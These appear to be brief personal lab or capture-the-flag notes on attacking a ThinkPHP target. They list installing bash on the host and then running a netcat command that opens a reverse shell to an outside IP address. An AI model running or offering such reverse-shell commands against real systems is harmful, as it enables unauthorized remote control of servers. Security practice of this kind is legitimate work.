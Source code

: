 # t_thinkphp_2

    - do the same as page
    - apk add bash (since there isn't installed bash)
    - nc 140.115.197.136 4444 -e /bin/bash (on website)
